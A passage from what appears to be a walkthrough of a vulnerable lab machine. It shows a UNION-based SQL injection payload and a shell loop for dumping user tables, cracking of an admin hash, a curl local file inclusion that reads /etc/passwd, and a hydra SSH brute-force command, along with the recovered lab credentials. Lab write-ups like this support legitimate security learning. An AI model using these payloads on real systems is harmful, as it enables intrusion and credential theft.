 **Step 3:** after we have the relevant databases names, table names we need to search the column name that we should use to get that data, since all column names can be found on information_schema.columns we use the same loop against that one for get that info.
`SELECT column_name FROM information_schema.columns limit 1,1;`
In mycase the loop was 788 (limit 788,1) which give me the following columns, `username`,`password`,`id`,`firstname`,`lastname`,`username`,`password`,`reg_date`.
**Step 4:** after we have that all info we need to build the pieces together, first tried to get information from Users table and using username and password columns
`SELECT Username from Users limit 1`
`SELECT Password from Users limit 1`
that query give me the following results: **admin:856f5de590ef37314e7c3bdf6f8a66dc**
we also know that there is the following databases, tables and relevant columns:
databases: Staff, information_schema, users
tables: StaffDetails, Users, UserDetails
columns: username, password, reg_date, id, etc..
Again, the full query was:
'UNION ALL SELECT 1,(SELECT Password from Staff.Users limit 1),3,4,5,6 -- '
Note, after we know that right point we can create script that will be run for us, but still it have have understand how that work, we can do it manually in such way we can get that needed info more faster then just write infinite loop.
Since we know there is `users` database, we can enumerate it too for get it's users listed, the way to do that via `select` without change use of database (because we can't do that on the web) is to run the following:
`SELECT username FROM users.UserDetails`
So on my case I have using the following in the script and using loop:
```sh
for num1 in $(seq 1 100); do ./post_sqli.sh http://192.168.152.209/results.php search "'UNION ALL SELECT 1,(SELECT username FROM users.UserDetails limit $num1,1),(SELECT password FROM users.UserDetails limit $num1,1),4,5,6 --" | grep Name:|awk -F"Name: " '{print $2}'|awk -F"<br/>" '{print $1}';done
```
The output contain users and passwords, so we will save it for later.

5. Cred Cracking: Since we have the hash of admin user we can crack it for get the password, the first step is to identify the hash type, we can use hash-identifier, also we can use some on-line tool, after we know the type we can use hashcat or online tool like crack station:
`admin:transorbital1`

6. Web Authenticated Assessment: Since we have the cred for admin we login to manage.php we found earlier, then we start to enumerate the site with our cookie after the authentication, we don't found anything new except that on manage.php page it say below:
`File does not exist`
so we trying to go for LFI and run GET query to get it work, and soon we found the following work:
`curl -X GET "http://192.168.152.209/manage.php?file=../../../../../../../../etc/passwd" --cookie "PHPSESSID=pso66to2uns4ndu29eqpdafb3q"`
that query work and we have found the following users:
`marym`,`julied`,`fredf`,`barneyr`,`tomc`,`jerrym`,`wilmaf`,`bettyr`,`chandlerb`,`joeyt`,`rachelg`,`rossg`,`monicag`,`phoebeb`,`scoots`,`janitor`,`janitor2`.
Since some of them look like the same users we found earlier, we can trying to check the users and it's creds against that target via ssh.

7. Brute Forcing: we make list from the users and password we have so far, then we can use `ssb` or `hydra` (better ideal) for brute force the target:
`hydra -L ./users.txt -P ./passwords.txt 192.168.152.209 ssh -I`
the following users are found as ssh users and thire passwords:
`chandlerb:UrAG0D!`,`joeyt:Passw0rd`,`janitor:Ilovepeepee`
